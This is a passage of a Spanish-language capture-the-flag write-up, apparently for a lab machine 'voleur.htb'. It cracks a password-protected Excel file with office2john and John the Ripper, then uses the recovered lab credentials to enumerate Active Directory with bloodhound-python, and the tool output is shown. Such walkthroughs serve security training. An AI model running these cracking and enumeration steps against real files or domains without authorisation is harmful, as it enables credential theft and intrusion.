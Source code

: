 <img width="1917" height="954" alt="image" src="https://github.com/user-attachments/assets/05c056fa-a5a6-496e-bfa1-b735558d31c8" />

conseguimos un archivo el cual descargamos, pero al intentar abrirlo no podemos asi que primero instalamos `libreoffice`

```bash
sudo apt install libreoffice -y
```

<img width="1917" height="699" alt="image" src="https://github.com/user-attachments/assets/28246cd7-171c-46a6-b8b7-3c661e336fec" />


<img width="1917" height="265" alt="image" src="https://github.com/user-attachments/assets/4d9e9a41-adf5-45cb-a15c-fcf35e17dbbd" />

se encuentra protegido por contrasena asi que intentaremos crackearlo

```bash
office2john Access_Review.xlsx > office_hash.hash
```

```bash
john -w=/usr/share/wordlists/rockyou.txt office_hash.hash
```

<img width="1600" height="254" alt="image (5)" src="https://github.com/user-attachments/assets/1d723a98-c8b1-4798-a805-9c6e621c73b3" />

ahora con la password accedemos al documento

<img width="1600" height="369" alt="image (6)" src="https://github.com/user-attachments/assets/ced01f59-4798-43e9-a5c3-952255c269e8" />

hemos conseguido posibles credenciales, pero antes vamos a recopilar informacion con `bloodhound-python`

```bash
bloodhound-python -u 'ryan.naylor' -p 'HollowOct31Nyt' -k -d voleur.htb -ns 10.10.11.76 -c ALl --zip
```
```bash
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: voleur.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc.voleur.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.voleur.htb
INFO: Found 12 users
INFO: Found 56 groups
INFO: Found 2 gpos
INFO: Found 5 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.voleur.htb
INFO: Done in 00M 31S
INFO: Compressing output into 20250720194100_bloodhound.zip
```

